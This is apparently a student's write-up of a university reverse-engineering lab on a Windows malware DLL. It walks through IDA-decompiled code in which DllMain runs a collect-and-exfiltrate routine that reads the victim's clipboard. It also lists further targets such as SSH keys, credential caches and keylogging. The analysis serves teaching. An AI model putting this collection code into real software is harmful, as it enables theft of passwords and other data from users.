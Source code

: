 ```yaml
---
title: Simple Reverse - 0x22(2023 Lab - WinMalware - Collect)
tags: [eductf, CTF, Reverse]

category: "Security/Course/NTU CS/Reverse/WinMalware Lab"
---
```


# Simple Reverse - 0x22(2023 Lab - WinMalware - Collect)
<!-- more -->

## Background
如果想要分析DLL，可以從以下三個地方切入
* _DllMainCRTStartup (DLL 載入和移除時的初始化與收尾)
    * DllMain / DllEntryPoint / CRT_INIT (function signature 相同)
    * 找有三個參數的 function call
    ![](https://hackmd.io/_uploads/Sk0GgCaz6.png)
    範例就大概像這樣，從`_DllMainCRTStartup`底下有`call _CRT_INIT`和`call DllEntryPoint`(`DllMain`在比較下面)
    ![](https://hackmd.io/_uploads/HklyZRTf6.png)
* Exported Functions
* TLS Callback
* [OpenClipboard](https://learn.microsoft.com/zh-tw/windows/win32/api/winuser/nf-winuser-openclipboard)
* [GetClipboardData](https://learn.microsoft.com/zh-tw/windows/win32/api/winuser/nf-winuser-getclipboarddata)
* [globalLock](https://learn.microsoft.com/zh-tw/windows/win32/api/winbase/nf-winbase-globallock)
* [\_itoa](https://learn.microsoft.com/zh-tw/cpp/c-runtime-library/reference/itoa-itow?view=msvc-170)

## Source Code
IDA解析的source code很常會出現明明沒有return value但還是自動建立的狀況，所以適時的刪除return value(Shift+DEL)是對分析比較好的做法
* DllMain
    ```cpp=
    BOOL __stdcall DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
    {
      if ( fdwReason == 1 )
      {
        MessageBoxA(0i64, "Reflective Dll Injection success. Remember to delete the persistence file", "eductf-lab", 0);
        my_main();    // 不重要的東西
        collect_and_exfiltrate();
      }
      return 1;
    }
    ```
* collect_and_exfiltrate
    ```cpp=
    void collect_and_exfiltrate(void)
    {
      PUCHAR pbInput; // [rsp+28h] [rbp-10h] BYREF

      pbInput = 0i64;
      collect_data(&pbInput);
      exfiltrate(pbInput);
    }
    ```
* collect_data
    ```cpp=
    void __fastcall collect_data(char **pbInput)
    {
      char *pbInput_1; // [rsp+28h] [rbp-10h] BYREF

      collect_get_clipboard_data(&pbInput_1);
      *pbInput = pbInput_1;
    }
    ```
* collect_get_clipboard_data
    ```cpp=
    void __fastcall collect_get_clipboard_data(LPVOID *pbInput)
    {
      HANDLE ClipboardData; // rax
      void *v3; // rsi
      int LastError; // eax
      char Buffer[34]; // [rsp+26h] [rbp-22h] BYREF

      if ( OpenClipboard(0i64) )
      {
        ClipboardData = GetClipboardData(1u);
        v3 = ClipboardData;
        if ( ClipboardData )
        {
          *pbInput = GlobalLock(ClipboardData);
          GlobalUnlock(v3);
        }
        else
        {
          LastError = GetLastError();
          _itoa(LastError, Buffer, 10);
        }
      }
      CloseClipboard();
    }
    ```

## Recon
目前要分析的重點著重在DllMain中，所以其他的切入點可以先不管，並且先聚焦在collect data身上。其實作者一開始就有把debug information都放在這邊，所以分析可以更順暢
1. 首先trace一下上面所有的code，會發現其實簡單到根本不用查MSDN也知道在幹嘛，就是把受害主機的剪貼簿打開，並取得這個剪貼簿的開頭指標，再回傳給`pbIntput`
2. 最後再傳給後續的exfiltrate function

:::info
目前的攻擊手法符合Mitre ATT&CK的[T1115](https://attack.mitre.org/techniques/T1115/)，剪貼簿中可能剛好有帳號、密碼、信用卡號之類的
除了剪貼簿，還能收集很多其他東西，像是：
* PDF、DOCX、XLSX、Email、Git source code
* SSH private key、Key logging、OS credential cache
* 麥克風、鏡頭、其他外接裝置
* 任何你想得到的資訊
:::